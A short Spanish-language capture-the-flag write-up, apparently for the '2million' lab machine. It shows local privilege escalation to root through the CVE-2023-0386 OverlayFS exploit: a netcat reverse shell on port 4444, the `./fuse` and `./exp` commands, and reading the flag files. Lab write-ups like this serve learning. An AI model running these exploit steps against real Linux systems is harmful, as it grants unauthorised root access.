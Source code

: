 Tambien veo un directorio interesante llamado "CVE-2023-0386".

```shell
www-data@2million:/home/admin$ ls -la
total 504
drwxr-xr-x 5 admin admin   4096 May 23 09:36 .
drwxr-xr-x 3 root  root    4096 Jun  6  2023 ..
lrwxrwxrwx 1 root  root       9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin    220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin   3771 May 26  2023 .bashrc
drwx------ 2 admin admin   4096 Jun  6  2023 .cache
-rw------- 1 admin admin     20 May 23 08:53 .lesshst
-rw-r--r-- 1 admin admin    807 May 26  2023 .profile
drwx------ 2 admin admin   4096 Jun  6  2023 .ssh
drwxr-xr-x 5 admin admin   4096 May 23 09:39 CVE-2023-0386
-rw-rw-r-- 1 admin admin 471222 May 23 09:34 cve.zip
-rw-r----- 1 root  admin     33 May 23 04:01 user.txt
```

```shell
www-data@2million:/home/admin$ ls CVE-2023-0386/
Makefile  README.md  exp  exp.c  fuse  fuse.c  gc  getshell.c  ovlcap  test
```

Investigando cuál es el funcionamiento del CVE, veo que hacen falta los terminales para explotarlo. Con netcat hago otra resverse shell pero esta vez por el puerto 4444.

En la primera consola, ejecuto `./fuse ./ovlcap/lower ./gc` y después, en la segunda introduzco `./exp`. El exploit se realiza correctamente y consigo ser root.

```shell
www-data@2million:/home/admin/CVE-2023-0386$ ./exp
exp: mkdir ./ovlcap/lower: Permission denied
[+] exploit success!
root@2million:/home/admin/CVE-2023-0386# whoami
root
```

Leo la flag del usuario.

```shell
root@2million:/home/admin# cat user.txt 
29***********************85
```

Tambien consigo leer la flag de root.

```shell
root@2million:/root# cat root.txt 
c3***********************28
```
